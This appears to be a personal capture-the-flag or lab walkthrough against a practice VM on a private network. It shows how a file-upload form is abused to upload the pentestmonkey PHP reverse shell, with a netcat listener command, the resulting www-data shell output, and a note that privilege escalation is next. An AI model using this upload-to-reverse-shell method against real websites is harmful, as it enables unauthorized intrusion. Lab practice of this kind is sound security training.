

Will login in the website and see different options and surf the website to find some loop holes and exploits in it.
website : http://192.168.142.131/academy/

-As we can see that there is a upload a file option here.
- So we can attack a website or what are some ways we can get code execution.
- Will try to absure the file uploading system and see if we can upload a reverse shell and get a connection back.
Open Google
Search : php reverse shell
Website : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
So will open the raw and copy all the content and paste it into a file name shell.php
command : mousepad shell.php or nano shell.php
Change the ip address in their (i.e. 192.168.142.128 in this case our ip address and not the attacker's ip)
Cuz we are trying to make reverse shell attack so the victime will send us a shell and will be listing for it.
- Now will establish a listner
command : nc -nvlp 1234
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.142.128] from (UNKNOWN) [192.168.142.131] 34830
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
22:43:15 up 1:24, 1 user, load average: 0.00, 0.00, 0.27
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
root tty1 - 21:21 1:21m 0.02s 0.01s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo -l
/bin/sh: 2: sudo: not found
$ which sudo
$ locate sudo
/bin/sh: 4: locate: not found
$
We were able to get a reverse shell but we are not a ROOT user. So we have to a privilege escalation here.